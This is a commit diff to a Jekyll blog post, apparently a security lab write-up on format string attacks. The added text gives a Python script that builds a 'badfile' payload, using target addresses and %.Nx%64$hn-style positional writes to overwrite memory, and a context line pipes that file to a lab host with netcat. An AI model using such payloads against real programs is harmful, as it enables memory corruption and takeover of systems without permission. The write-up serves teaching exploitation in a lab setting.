

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-09-10-format-string-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 8294 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
update content

````diff
--- a/_posts/2023-09-10-format-string-attack.md
+++ b/_posts/2023-09-10-format-string-attack.md
@@ -414,6 +414,39 @@ cat badfile | nc -w2 10.9.0.5 9090
 
 **image**
 
+___
+
+Rather than using so may %x in our attack, we can make use of just one to build up the number we want to write into a memory address and use a modifier (K$) to move the pointer to the Kth element we want to write into.
+
+The above code can be modified as below to achieve this:
+
+```python
+#!/usr/bin/python3
+import sys
+
+# Start input with the memory address that will store a lower value
+content = (0x080e506a).to_bytes(4,byteorder='little')
+
+# Append the memory address that will store a higher value
+content += (0x080e5068).to_bytes(4,byteorder='little')
+
+# Append format specifiers
+content += ("%.43699x%64$hn").encode('latin-1')
+content += ("%.8738x%65$hn").encode('latin-1')
+
+# Append a newline
+content += ("\n").encode('latin-1')
+
+
+# Write the content to badfile
+with open('badfile', 'wb') as f:
+  print(f"writing {len(content)} bytes to badfile...")
+  f.write(content)
+```
+
+As we can see, the result is the same.
+**image**
+
 
 ##### Using %hhn
 
````
